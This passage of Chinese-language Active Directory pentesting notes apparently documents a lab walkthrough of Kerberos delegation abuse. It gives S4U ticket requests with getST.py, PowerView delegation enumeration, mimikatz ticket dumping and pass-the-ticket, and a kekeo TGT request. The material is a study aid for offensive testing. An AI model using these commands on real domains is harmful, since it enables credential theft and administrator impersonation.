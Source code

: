 通过S4U协议申请一个高权限的：

```ppowershell
getST.py -dc-ip 10.10.10.10 xxcom.local/spnspnspn\$:spnspnspn -spn cifs/web.xxcom.local -impersonate administrator
```

```shell
export KRB5CCNAME=administrator.ccache
```

##### 查找约束与非约束委派

> 用到老朋友PowerSploit了

导入 `PowerSploit\Recon\PowerView.ps1` ，因为就开了两台机器，我们修改一下走过过场

1. 查询域内非约束
   账户查询：命令 `Get-NetUser Unconstrained -Domain xxcom.local`
   ![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/查询非约束.png)
   主机查询（就不重复贴图了）：`Get-NetComputer Unconstrained -Domain xxcom.local`

2. 查询域内约束
   查看用户：`Get-DomainUser -TrustedToAuth -Domain xxcom.local`

   查看主机：`Get-DomainComputer -TrustedToAuth -Domain xxcom.local`

##### 非约束委派的利用

> 刚开始看目录都失败了5555原来是忘记给他加到dns记录里面

用域控上的administrator去访问web

![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/dir.png)

在web主机上起个猕猴桃 `sekurlsa::tickets /export` 找到那个TGT票据
![image](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/mimikatz_tickets.png)

在猕猴桃中把这个票据导入即可，其实也是PTT攻击（想一下拿到 Administrator的TGT票据，那不就和拿了黄金票据的目的一样嘛）
指令为`kerberos::ptt xxxx.kirbi`
还有一个点刚学到的，`sekurlsa::tickets`是内存中所有的，而`kerberos::list` 是当前会话中的，所以sekurlsa需要提权至system下进行利用。非约束委派的那个图里画了，TGT是会被放在内存中的，所以用猕猴桃可以抓到

[*] 注：不过有一个人在下面回复了，TGT票据一段时间后消失了，这里有点好奇这个TGT在内存里的缓存时间是多久？

##### 约束委派的利用

> 用到了一个新的工具，kekeo

原理流程简易版：

1. 申请TGT
2. 利用TGT获取ST
3. 导入ST

一步步来，跟着摸一遍吧...首先用kekeo获取TGT

```shell
tgt::ask /user:web /domain:xxcom.local /password:1qaz@WSX
```
